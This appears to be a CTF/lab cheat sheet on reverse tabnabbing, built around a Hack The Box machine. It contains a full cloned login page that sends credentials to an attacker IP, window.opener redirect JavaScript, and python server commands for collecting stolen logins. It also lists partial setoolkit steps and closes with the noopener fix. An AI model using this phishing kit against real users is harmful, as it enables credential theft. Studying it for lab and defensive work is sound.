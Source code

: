 # Tab napping

## More info:  
https://owasp.org/www-community/attacks/Reverse_Tabnabbing  
https://hackerone.com/reports/179568


## Desc

When you open a link in a new tab ( ```target="_blank"``` ), the page that opens in a new tab can access the initial tab and change it's location using the window.opener property. 

## Tab napping (manual) 

You need 2 html forms.

1. A fished login form 
2. A form with redirect code in for the browser. 

## Example (hackthebox machine foothold used to test) (developers htb, hard machine)

1. Spoofed login.html (make sure to update any links so they resolve the content and looks as the original)(POST chnaged to GET request)

```
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">
    <link rel="icon" href="http://developer.htb/img/favicon.ico">
    <link rel="stylesheet" href="http://developer.htb/static/css/jquery.toasts.css">
    <script src="http://developer.htb/static/js/all.min.js"></script>
    <script src="http://developer.htb/static/js/jquery-3.2.1.min.js"></script>
    <title>Login | Developer.HTB</title>

    <!-- Bootstrap core CSS -->
    <link rel="stylesheet" href="/static/css/bootstrap.min.css">

    <!-- Custom styles for this template -->
    <link href="http://developer.htb/static/css/signin.css" rel="stylesheet">
  </head>

  <body class="text-center">
 
    <form class="form-signin" action="//10.10.14.148:8074" method="get">
        <input type="hidden" name="csrfmiddlewaretoken" value="DNASuXuPkU07d5eNEABgOZsAzDPk3tS3BYJrWmTahQdvAUIYHsStaSpBQvSVTGMs">
      <img class="mb-4" src="http://developer.htb/static/img/logo.png" alt="" width="72" height="72">
      <h1 class="h3 mb-3 font-weight-normal">Welcome back!</h1>
      <label for="uname" class="sr-only">User Name</label>
      <input type="text" id="id_login" name="login" placeholder="Username" class="form-control" required autofocus>
      <label for="password" class="sr-only">Password</label>
      <input type="password" id="id_password" name="password" placeholder="Password" class="form-control" required>

      
      <button id="loginbtn" class="btn btn-lg btn-primary btn-block" type="submit">Sign in</button>
          <a href="http://developer.htb/accounts/password/reset/" class="auth-link">Forgot password?</a>
        <div class="text-center mt-4 font-weight-light"> Don't have an account? <a href="/accounts/signup/" >Click here!</a>      
      <p class="mt-5 mb-3 text-muted">&copy; Developer.HTB 2021</p>
    </form>

<script src="http://developer.htb/static/js/jquery.toast.js"></script> 
<script>


</script>
  </body>
</html>

```

2. Redirect index.html (replace your IP:PORT)

```
<html>
<script>
if (window.opener) window.opener.parent.location.replace('//IP:PORT/login.html');
if (window.parent != window) window.parent.location.replace('//IP:PORT/login.html');
</script>
</html>
```

3. Setup two python server's to host your files to be served. 

```
python3 -m http.server 8088     # to host the files
python3 -m http.server 8074     # to get the login details
```

Now you can send your exploit and await the login details. 
Note I changed the POST to a GET request for ease. 

```
<form class="form-signin" action="//10.10.14.148:8074" method="get">
```

## Auto tab napping (setoolkit) (currently having issue: https://github.com/trustedsec/social-engineer-toolkit/issues/727)

1. Open setoolkit
2. From main menu choose 1) Social engineering attacks
3. From main menu choose 2) website attack vectors
4. Choose 4 for Tabnapping
5. Choose 2 for site cloner
6. 




## Remedy the issue. 

The fix is very simple by adding ```noopenerand noreferrertags``` to the href elements on the page:
```rel='noopener noreferrer'```

```
<a rel='noopener noreferrer' href="http://google.com/" target="_blank">This is a link to a bad webpage.</a>
```
